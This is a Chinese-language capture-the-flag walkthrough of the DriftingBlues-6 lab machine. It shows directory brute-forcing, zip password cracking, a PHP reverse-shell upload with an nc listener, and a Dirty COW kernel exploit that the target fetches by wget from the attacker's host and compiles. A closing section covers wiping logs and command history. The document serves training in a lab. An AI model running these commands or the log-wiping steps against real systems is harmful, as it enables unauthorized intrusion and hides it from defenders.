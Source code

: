# 前言

靶机：`DriftingBlues-6`，IP地址`192.168.1.63`，因为重装靶机后期为`192.168.1.64`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`

![](./pic-6/1.jpg)

# 信息收集

## 使用nmap扫描端口

![](./pic-6/2.jpg)



## 网站探测

访问80端口，并查看页面源代码，发现有些信息，图片为`db.png`，还有一段话

![](./pic-6/3.jpg)

下载图片，测试有无隐藏信息

![](./pic-6/4.jpg)

![4-1](./pic-6/4-1.jpg)

访问这一段话中的地址，发现这是一个虚拟靶场的集合，并无其他信息，可能是一个暗广

![](./pic-6/5.jpg)

那么根据图片链接地址，猜测可能是目录型网站

使用`gobuster、dirsearch、ffuf、dirb、dirbuster`等工具进行扫描目录

```shell
gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404,403 -d
```

![](./pic-6/6.jpg)

访问`db`发现就是图片地址，访问`robots`和`robots.txt`，都是一样的内容，给了一个目录，还细心的提示，在目录爆破时别忘了加上`zip`后缀名

![](./pic-6/7.jpg)

先访问这个目录测试`/textpattern/textpattern`，发现是一个登录界面

![](./pic-6/8.jpg)

其上级目录`/textpattern`类似于一个博客

![](./pic-6/9.jpg)

使用`whatweb`进行指纹识别，确定了CMS为`textpattern`，以及脚本语言为`php`等

![](./pic-6/10.jpg)

使用`gobuster`再次进行扫描，这里换个字典，猜测可能是字典的原因，因为上面也加上了`zip`后缀，这里只对`zip`后缀进行爆破，一层目录开始，然后往下深入，为什么使用`gobuster`，因为这里确实会把后缀加上，可以直观的看到有无`zip`文件，并且速度很快。当然也可以使用`dirb`这个也是好用的

```shell
#使用gobuster
gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x zip -b 404,403 -t 200 

#使用dirb，这里的顺序很重要
dirb http://192.168.1.63 /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -X .zip 
```



![](./pic-6/11.jpg)

使用浏览器访问后下载到`kali`，不过解压需要密码，可以使用`fcrackzip`或者使用`john`套件中的`zip2john`转换，然后使用`john`破解，最终解出密码，查看解压文件，发现是认证的身份信息

![](./pic-6/12.jpg)

登录成功后，随便点击功能测试，发现CMS的版本

![](./pic-6/13.jpg)

我这里不知道什么原因，在进行功能点测试时，一直在加载，很是缓慢，尝试重启靶机，无效，重装靶机

这时靶机`ip`改变为`192.168.1.64`

发现`files`可以上传文件，把`kali`中的`php`脚本上传

```shell
/usr/usr/share/webshells/php/php-reverse-shell.php
```

![](./pic-6/14.jpg)

只需要修改脚本中的一处或两处，`ip`为kali的地址

![](./pic-6/15.jpg)

> 上传后的脚本地址在`textpattern`目录下，这里因为之前扫描过，知道位置，只是没有把截图放上去，建议扫描的时候，可以先使用`dirsearch`或者`dirb`把目录先走一遍

在`kali`使用`nc`监听端口`1234`后，使用浏览器访问脚本地址

![](./pic-6/16.jpg)

反弹shell后，使用`dpkg`查看有无`python`可用

```shell
dpkg -l | grep python
```

![](./pic-6/17.jpg)

使用`python`获取交互式界面

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

使用`find`寻找具有SUID文件和`capabilites`，并无可用信息

```shell
find / -perm -u=s -type f 2>/dev/null
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```

![](./pic-6/18.jpg)

查看信息内核版本信息以及定时任务

```shell
uname -a
cat /etc/crontab
```

![](./pic-6/19.jpg)

查看网络状态信息

![](./pic-6/20.jpg)

使用`searchsploit`搜索内核漏洞，发现在脏牛漏洞的范围内，尝试使用脏牛进行提取

![](./pic-6/21.jpg)

测试发现`40839`可以利用，在`kali`中开启`python`一个简易的网站服务，然后靶机通过`wget`把文件下载到本地，注意，在靶机上进行编译处理

```shell
#kali
python3 -m http.server 8888

#靶机
wget http://192.168.1.16:8888/40839.c
gcc -pthread 40839.c -o exp -lcrypt   //这个用法在40839.c中有提示
```

![](./pic-6/22.jpg)

执行`exp`，设置密码，不过这里就会回弹失败，没有关系，通过浏览器重新访问监听获取shell

![](./pic-6/23.jpg)

再次获取shell，然后切换到脚本中提示的默认`firefart`

![](./pic-6/24.jpg)

![](./pic-6/25.jpg)



# 痕迹清理

这里就只说一下

首先把脚本删除掉，在`/tmp`中的C语言文件以及编译的`exp`

把网站中的反弹`php`脚本删除

把`/var/log`中的各种日志清理，涉及到`kali`中的地址，都可以清除，或使用`sed`针对清理

把命令历史记录清理

# 总结

1. 考察目录扫描以及压缩包的解密
2. 考察文件上传的反弹shell
3. 考察linux系统内科提取，这里是脏牛提取



































